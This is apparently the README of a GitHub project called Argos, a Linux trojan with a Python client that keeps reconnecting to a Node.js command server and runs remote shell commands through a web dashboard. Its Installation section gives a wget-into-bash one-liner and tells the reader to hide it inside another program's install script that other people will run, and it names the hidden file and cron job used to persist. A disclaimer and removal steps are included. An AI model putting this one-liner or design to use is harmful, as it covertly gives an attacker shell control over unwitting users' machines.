 <p align="center">
  <img src="https://github.com/Just1truc/Argos/blob/main/assets/top.png?raw=true">
  <br>
  <i>Can see everything, beware of its omniscience, kneel before its greatness.</i>
</p>

## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**SocketIO**](https://socket.io/fr/get-started/chat) server
- An [**ExpressJS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !

### Automatically

```bash
crontab -r && kill $(ps -aux | grep /usr/local/src/.service.exwrap.py | grep -v "grep" | awk '{print $2}')
```

### Manually

To do so, you just need to first execute this command to get rid of the cronjob :
```bash
crontab -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```

> Tip: The trojan file is .service.exwrap.py

Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```

## Credits:
<div align="center">
<table>
  <tr>
    <td align="center">
      <a href="https://github.com/Just1truc">
        <img src="https://avatars.githubusercontent.com/u/68695857?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Justin Duc</b>
        <p>Client side and Backend</p>
      </sub>
      <a href="https://github.com/Just1truc" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/justin-duc-51b09b225/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZiplEix">
        <img src="https://avatars.githubusercontent.com/u/86067803?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Baptiste Leroyer</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/ZiplEix" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/baptiste-leroyer-a69894227/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZerLock">
        <img src="https://avatars.githubusercontent.com/u/47077683?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Léo Dubosclard</b>
        <p>DevOps Developper</p>
      </sub>
      <a href="https://github.com/ZerLock" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/leo-dubosclard/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
  </tr>
  <tr>
    <td align="center">
      <a href="https://github.com/izimio">
        <img src="https://avatars.githubusercontent.com/u/65503390?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Joshua Brionne</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/izimio" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/joshua-brionne/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://youtu.be/S7dbdC8e5cQ?t=43">
        <img src="https://cdn.discordapp.com/attachments/899334925206040606/983147821249200158/unknown.png" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Paul Laban</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://youtu.be/S7dbdC8e5cQ?t=43" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://youtu.be/S7dbdC8e5cQ?t=43" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/MathiDEV">
        <img src="https://avatars.githubusercontent.com/u/40570499?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Mathias André</b>
        <p>Stability responsible</p>
      </sub>
      <a href="https://github.com/MathiDEV" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/mathias-andré/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
</table>
</div>

<br>
<br>

> ⚠️ *Do not use for illegal purposes*

*THIS PROJECT IS IN PROGRESS. It's FUNCTIONNAL but it's not as securised as it should be*
